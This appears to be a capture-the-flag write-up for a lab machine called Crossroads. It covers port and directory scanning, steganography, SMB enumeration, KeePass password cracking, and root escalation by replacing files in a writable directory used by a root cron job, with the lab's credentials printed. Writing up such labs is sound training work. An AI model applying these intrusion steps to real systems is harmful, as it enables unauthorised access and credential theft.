# Crossroads CTF Writeup

## Overview

Crossroads is a CTF machine that involves web enumeration, steganography, SMB access, KeePass credential extraction and privilege escalation via a root cron job.

Target IP:

```bash
192.168.1.152
```

---

## Reconnaissance

```bash
nmap -sC -sV 192.168.1.152
```



Discovered services:

* HTTP
* SMB

---

## Web Enumeration

```bash
dirb http://192.168.1.152
```



Found:

```
/robots.txt
```

Contents:

```
Disallow: /crossroads.png
```

---

## Image Analysis

```bash
exiftool crossroads.png
```



No useful data.

```bash
zsteg crossroads.png
```



Found an OpenPGP secret key.

---

## SMB Enumeration

```bash
enum4linux -A 192.168.1.152
```



Discovered user:

```
albert
```

---

## Password Brute Force

Credentials obtained:

```
albert : bradley1
```



---

## SMB Access

```bash
smbclient //192.168.1.152/albert -U albert
```

```bash
ls
```

```bash
get user.txt
```



User flag captured.

---

## KeePass Database

Discovered:

```
keyfile.kdbx
```

Cracked the hash:

```bash
john --show hash
```

Password:

```
porsiempre
```



Opened KeePass and extracted possible credentials.



---

## Process Monitoring

To identify privilege escalation vectors I monitored processes running as root.

The output showed a script executed every minute:

```
/usr/sbin/CRON -f
/bin/sh -c /root/key.sh
/bin/bash /root/key.sh
```

This means a root cron job is running:

```
/root/key.sh
```

every minute.



---

## Privilege Escalation

The script was using files from a writable directory:

```
/keyfolder
```

I replaced the original file with my own:

```bash
rm -f /keyfolder/*
mv /tmp/fracturedocean /keyfolder/
```

After the cron execution:

```bash
ls -la /keyfolder
```

A new file appeared:

```
rootcreds.txt
```




---

## Root Access

```bash
cat rootcreds.txt
```

Credentials:

```
root : imjustdrifting31
```

Root flag captured.


---

## What I Learned

* robots.txt can expose sensitive files
* images may contain hidden data
* SMB enumeration is critical
* KeePass databases store valuable credentials
* monitoring processes reveals cron-based privilege escalation
* writable directories used by root scripts lead to full system compromise
